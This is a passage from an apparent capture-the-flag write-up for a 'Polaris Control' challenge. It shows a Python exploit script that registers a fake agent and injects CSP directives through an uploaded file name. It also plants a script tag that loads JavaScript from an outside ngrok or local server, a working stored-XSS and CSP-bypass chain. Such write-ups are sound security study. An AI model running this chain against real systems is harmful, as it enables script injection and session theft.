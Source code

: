With an image file name of `"; script-src 'none'; script-src-elem *; img-src blah.png"` we can insert our own CSP directives that create the bypass mentioned in the article. We can verify this bypass by setting a simple alert payload and verifying on our local instance.

We use the following exploit script:

```python
#!/usr/bin/env python3
import requests

local = True
proxy = True

url = "localhost" if local else "94.237.48.19"
port = 1337 if local else 42240

sess = requests.Session()
sess.proxies.update({'http':'http://127.0.0.1:8080'}) if proxy else 0
sess.headers.update({'User-Agent': 'Polaris Control/1.2.3'})

HTTP_SERVER = "http://172.17.0.1:5000" if local else "http://5f65-82-11-229-58.ngrok-free.app"

body = {
        "version":    "a",
                "antivirus":  "b",
                "hostname":   "c",
                "platform":   "d",
                "arch":       "e",
                "rights":     "f"
}

# register our "agent", extract the creds
r = sess.post(f"http://{url}:{port}/comms/register", json=body)

ID = r.json()['identifier']
token = r.json()['token']

# okay check, (required?)
r = sess.get(f"http://{url}:{port}/comms/check/{ID}/{token}")
print(r.text)

js_source = """
alert(1)
"""

with open('./test.js', "w") as fh:
    fh.write(js_source)

body['antivirus'] = f"<script src=\"{HTTP_SERVER}/test.js\"></script>"


# change to your image name
f = "file.png"
with open(f, "rb") as fh:
    r = sess.post(
                f"http://{url}:{port}/comms/update/{ID}/{token}",
                data=body,
                files={
                        # file name will inject into CSP
                        "image": ("blah.png", fh, "text/html")
                }
        )
# debug
print(r.text)

```